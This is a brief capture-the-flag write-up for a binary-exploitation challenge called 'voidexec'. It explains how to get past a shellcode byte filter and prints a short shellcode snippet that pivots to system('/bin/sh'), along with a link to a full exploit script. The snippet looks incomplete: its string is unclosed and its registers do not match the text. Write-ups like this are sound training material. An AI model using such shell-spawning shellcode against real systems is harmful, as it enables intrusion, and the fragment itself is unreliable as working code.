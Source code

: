 # Challenge Statement
<img width="1278" alt="Screenshot 2025-04-04 at 10 36 36 AM" src="https://github.com/user-attachments/assets/898ec69e-7215-484b-9fb8-d754efee3adc" />

Attachement: [voidexec.zip](https://github.com/harishkannan05/THM-HackfinityBattle-Writeup/blob/main/Attachments/voidexec.zip)

# Solution
Going through the files, we understand that the binary reads shellcode from the user and executes it.  
The shellcode should not contain `0x15` or `0xCD 0x80`.  
We also find that the `r13` register stores the address of the "main" function.  

Now, we can write the shellcode to call `mprotect` function to change the memory region to read-execute and call the `execve` syscall.  
```
sc = asm(f"""
sub rcx, {libc.sym.mprotect + 0x0b}
mov r12, rcx
add rcx, {libc.sym.system}
mov rdi, r12
add rdi, {next(libc.search(b'/bin/sh'))}
jmp rcx
```

Here's the [script](https://github.com/harishkannan05/THM-HackfinityBattle-Writeup/blob/main/Scripts/VoidExecution.py) I've used.  
